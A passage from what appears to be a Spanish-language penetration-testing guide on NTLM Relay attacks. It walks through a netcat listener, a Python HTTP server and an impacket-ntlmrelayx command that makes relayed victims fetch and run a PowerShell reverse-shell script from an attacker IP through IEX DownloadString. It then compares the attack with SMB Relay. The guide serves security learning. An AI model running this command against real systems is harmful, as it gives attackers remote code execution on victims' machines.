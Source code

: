 Esto permitirá que podamos ejecutar la shell reversa directamente al subir el archivo a la victima ya que con el comando **IEX** haremos que lo ejecute directamente.

Por lo tanto, corremos un netcat a la escucha en el atacante \(como en la sección anterior\) y corremos un servidor http de python para enviar el script.

un impacket-ntlmrelayx que ejecute la subida de PS.ps1 a la victima.

`sudo impacket-ntlmrelayx -tf targets.txt -c "powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.132:8000/PS.ps1')" -smb2support`

![&#xA1;Premio!](../.gitbook/assets/nishang3.png)

## CONCLUSIÓN

Como vemos, el ataque NTLM Relay es más potente que el SMB Relay siempre y cuando contemos con permisos de ejecución de comandos en el activo objetivo.

Las capacidades de post-exploiting son las mismas que las de SMB Relay desde el punto de vista de que los dos ataques se encuentran accesibles en este punto.

## REFERENCIAS

[https://en.hackndo.com/ntlm-relay/](https://en.hackndo.com/ntlm-relay/)  
[https://en.hackndo.com/pass-the-hash/](https://en.hackndo.com/pass-the-hash/)  


